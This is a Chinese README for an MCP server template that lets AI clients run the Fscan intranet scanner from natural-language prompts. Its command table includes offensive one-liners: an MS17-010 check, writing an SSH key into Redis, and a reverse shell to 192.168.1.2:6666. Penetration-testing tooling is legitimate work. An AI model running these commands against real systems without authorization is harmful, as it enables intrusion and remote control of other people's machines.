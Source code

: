 # Fscan MCP Server 模板
## 项目简介
Fscan MCP Server 是一个基于 **Model Context Protocol (MCP)** 的轻量级服务，旨在通过自然语言指令快速调用 **Fscan** 内网安全扫描工具。用户只需输入简单的中文提示（如 “帮我扫下 127.0.0.1 端口”），即可自动触发预设的 Fscan 命令，实现扫描任务的自动化执行。

### 核心功能
**自然语言触发**：支持通过中文指令直接调用 Fscan 扫描（如 “扫描 192.168.1.1/24 网段”）。
**内置命令模板**：预定义常见扫描场景（端口扫描、漏洞检测、服务爆破等），可快速扩展新指令。
**MCP 协议集成**：通过标准化协议与 MCP 客户端（如 Cursor、Claude Desktop）无缝对接，支持动态发现和安全权限控制。

## 安装指南
### 环境要求
Python 3.8+
MCP 客户端（如 [Cursor](https://www.cursor.so/) 或 [万径千机](https://github.com/xxx/wanjingqianji)）
需要在mcp_Server同目录下放置fscan.exe

### 步骤 1：安装依赖

```
pip install mcp==1.0.0
```

### 步骤 2：配置 MCP 客户端

以 **Cursor IDE** 为例：

创建配置文件 `mcp.config.json`：
```json
{
    "mcpServers": {
        "fscan-mcp-server": {
            "name": "Fscan 内网安全扫描工具",
            "command": "uv",
            "args": [
                "--directory",
                "${WORKSPACE}/fscan_MCP",
                "run",
                "--with",
                "mcp",
                "mcp",
                "run",
                "fscan_mcp_server.py"
            ],
            "disabled": false,
            "autoApprove": []
        }
    }
}
```
将配置文件导入 MCP 客户端（路径需根据实际项目调整）。

## 使用示例

### 触发指令

```
用户输入：帮我扫下127.0.0.1端口

模型调用：fscan.exe -h 127.0.0.1 -p 1-65535 -nopoc
```
## Fscan 功能支持

| 功能模块      | 指令示例                   | 对应 Fscan 命令                                     |
| --------- | ---------------------- | ----------------------------------------------- |
| 端口扫描      | 扫描 192.168.1.1 的 80 端口 | `fscan.exe -h 192.168.1.1 -p 80`                |
| 漏洞检测      | 检测 MS17-010 漏洞         | `fscan.exe -h 192.168.1.1 -m ms17010`           |
| Redis 写公钥 | 向 Redis 服务器写入 SSH 公钥   | `fscan.exe -h 192.168.1.1 -rf id_rsa.pub`       |
| 反弹 Shell  | 计划任务反弹 Shell           | `fscan.exe -h 192.168.1.1 -rs 192.168.1.2:6666` |

## 项目结构
```
├── fscan_mcp_server.py  # MCP 服务入口
├── commands.json       # 指令模板配置
└── README.md           # 文档
```

## 贡献指南
**添加新指令**：在 `commands.json` 中定义触发词和对应命令。
**优化逻辑**：修改 `fscan_mcp_server.py` 中的参数解析或响应处理。
**文档完善**：补充使用案例或配置说明。
## 许可证
本项目采用 **MIT 许可证**，详情见 [LICENSE](LICENSE)。

## 参考资料
[Fscan 官方文档](https://github.com/shadow1ng/fscan)
[MCP 协议规范](https://github.com/anthropic/mcp)
[MCP 客户端配置指南](https://www.cursor.so/docs/guides/mcp)
通过本模板，您可以快速构建自定义的 AI 驱动安全扫描工具链，实现从自然语言指令到复杂渗透测试任务的自动化执行。
